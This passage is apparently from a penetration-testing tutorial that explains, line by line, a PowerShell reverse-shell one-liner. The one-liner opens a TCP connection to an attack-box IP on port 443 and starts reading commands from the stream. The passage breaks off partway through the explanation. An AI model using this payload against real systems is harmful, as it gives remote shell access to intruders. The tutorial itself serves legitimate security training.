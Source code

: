 ```cmd-session
powershell -nop -c

```

Executes `powershell.exe` with no profile ( `nop`) and executes the command/script block ( `-c`) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in `cmd.exe`.

#### Binding A Socket

```cmd-session
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);

```

Sets/evaluates the variable `$client` equal to ( `=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon ( `;`) ensures the commands & code are executed sequentially.

#### Setting The Command Stream

```cmd-session
$stream = $client.GetStream();

```

Sets/evaluates the variable `$stream` equal to ( `=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications. The semi-colon ( `;`) ensures the commands & code are executed sequentially.

#### Empty Byte Stream

```cmd-session
[byte[]]$bytes = 0..65535|%{0};

```

Creates a byte type array ( `[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

#### Stream Parameters

```cmd-session
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

```

Starts a `while` loop containing the `$i` variable set equal to ( `=`) the .NET framework [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) ( `$stream.Read`) method. The parameters: buffer ( `$bytes`), offset ( `0`), and count ( `$bytes.Length`) are defined inside the parentheses of the method.

#### Set The Byte Encoding
